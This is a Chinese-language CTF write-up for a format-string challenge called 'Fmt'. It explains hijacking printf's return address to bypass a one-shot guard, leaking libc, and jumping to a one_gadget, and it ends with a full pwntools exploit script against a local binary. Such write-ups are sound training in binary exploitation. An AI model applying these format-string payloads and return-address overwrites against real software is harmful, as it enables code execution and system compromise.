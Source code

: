 # Fmt

做这题的时候一直在想办法让程序循环起来但最终是没找到办法，看了wp才知道方法

这题应该是用到了 call 的一个特点

![](https://hnusec-team.feishu.cn/space/api/box/stream/download/asynccode/?code=MzRlYmYyZGQ4MjNlNDUyZmIyM2Y5NjQ0M2MyYzk2N2RfU1NxN1hjNnBibzRucVZ1OEZzV3dRN2QzOXd1ZGIxczZfVG9rZW46QldBeGJ6UDlBb09nU2p4bFR5SWNZZG9tbktmXzE3NDUxMzcyNjk6MTc0NTE0MDg2OV9WNA)

这里可以看到`rsp`指针是指向我们读入的`stack`的位置的，

![](https://hnusec-team.feishu.cn/space/api/box/stream/download/asynccode/?code=YWY4ZTZmYmQyMDM5MmJkYzhjZWZlYWNmZTExODBmYTZfbnNrZm9xYXNZT3g4aG1Jdkx6MUR2TElETG9QaEtuMGVfVG9rZW46TmltR2J4NzZhb1NIV0p4cTlxdWN6elNRbmJIXzE3NDUxMzcyNjk6MTc0NTE0MDg2OV9WNA)

我们进入`printf`函数中可以看到`rsp`往回了`0x8`的位置，这里这个`0x401276`就是`printf`函数后面接着的code段的地址

![](https://hnusec-team.feishu.cn/space/api/box/stream/download/asynccode/?code=NzUxZTMwODRkZDY2MWNmODEzZmJlNTQ3MjVmMWU5YzVfbzViNVh3RzZodHB5bjZFZnhXTVQ1ZGI4aTRlQnBON3VfVG9rZW46QklFcmJsNXFhb3RlTVd4RXAxUmNTYlRsbjJmXzE3NDUxMzcyNjk6MTc0NTE0MDg2OV9WNA)

这里就可以看到最后是返回了`0x401276`的位置，如果我们将这里的位置修改了呢

![](https://hnusec-team.feishu.cn/space/api/box/stream/download/asynccode/?code=M2UzNWEwZGIyZDNkNjdhMWYwYmZlYTk4ODJhMzIzY2JfeXYzS2J4SWwzUVNGVFM2VUJHb2FiUkNseUd4aXZqQTZfVG9rZW46VnRDMGJreFR2b0NRREx4MThuZmNFakF4bmJoXzE3NDUxMzcyNjk6MTc0NTE0MDg2OV9WNA)

可以看到这里将`rsp`指向的`stack`的内容修改后返回的地址也修改了，那么就很明确了，这个位置控制的是`printf`函数执行后的返回地址，我们将这个位置修改后就能在劫持`printf`执行后的返回。

那么回到这道题，这道题在执行一次`printf`后会立刻修改`magic`变量，使得即使我们修改了返回地址想要多次执行格式化字符串漏洞也无法实现。那么我们这里就可以通过刚刚这个点，修改`printf`函数的返回地址，让其不执行`magic = 0`这条语句，并将printf函数的返回地址改为函数起始，这样就可以再次利用`printf`函数漏洞。

![](https://hnusec-team.feishu.cn/space/api/box/stream/download/asynccode/?code=YzdjZGVlMmQyY2QwM2Q0ZjEyNDc3MzE3NWZlOWEyYjRfeVlFZE50RnREZGhjblBqeXRBVTlHRnc3cDduUGVrdk9fVG9rZW46UjRNYWJKaFQ2b25SVXV4TTdmNWNvQXJCbjZiXzE3NDUxMzcyNjk6MTc0NTE0MDg2OV9WNA)

剩下的思路就很明显了，第一次格式化字符串漏洞泄漏`libc`并劫持`printf`返回函数到`main`函数的起始，然后第二次构造格式化字符串漏洞修改返回地址为`ogg`即可`get shell`。

```Python
from pwn import *

context(arch="amd64", os="linux", log_level="debug")
p = process("./fmt")

def debug():
    gdb.attach(p, '''
        b *0x4012e4
    ''')

p.recvuntil(b'gift ')
stack = int(p.recvline().strip(), 16)
log.info(f"stack: {hex(stack)}")
p.recvuntil(b'name')
payload = b'%12c%18$hhn'.ljust(0x8, b'a')
payload = b'%4539c%10$hn-%19$p-'.ljust(0x20, b'a')
payload += p64(stack - 0x8)
debug()
p.sendline(payload)
p.recvuntil(b'\x2d')
__libc_start_main = int(p.recv(14).strip(), 16) - 243
log.info(f"__libc_start_main: {hex(__libc_start_main)}")
libc = ELF("./libc.so.6")
libc.address = __libc_start_main - libc.symbols['__libc_start_main']
log.info(f"libc: {hex(libc.address)}")
ogg = libc.address + 0xe3b01
log.success(f"ogg: {hex(ogg)}")
payload = fmtstr_payload(6, {stack + 0x8: ogg}, write_size='int')
p.sendline(payload)

p.interactive()
```
